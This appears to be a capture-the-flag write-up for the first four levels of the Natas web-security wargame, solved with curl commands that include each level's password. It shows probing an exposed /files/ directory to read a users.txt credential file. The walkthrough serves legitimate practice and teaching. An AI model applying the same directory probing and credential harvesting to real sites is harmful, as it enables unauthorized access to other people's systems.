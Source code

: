 # natas

This is a serverside web-security wargame, you can play at http://overthewire.org/wargames/natas/

I have seen some natas writeups, but all of them use python to solve challenges. During play this game, I wrote some shellcode instead of python to solve many higher level. And here, I will show you the power of shellcode, the magic of `curl` command. Hope you like it.

**Note**: I added some lower-level, but there are many levels I didn't write, I need more free time.

## natas0

```sh
curl --silent --user natas0:natas0 http://natas0.natas.labs.overthewire.org | grep "password for natas1"
```

## natas1

```sh
curl --silent --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto http://natas1.natas.labs.overthewire.org | grep "password for natas2"
```

## natas2

```sh
curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org
```

View source and we see there is a image named *pixel.png* in folder */files/*, something exists on it?

```sh
curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/
```

There are 2 files in here, one is *users.txt*

```sh
curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt | grep natas3
```

## natas3

```sh
curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org
```

```
No more information leaks!! Not even Google will find it this time...
```
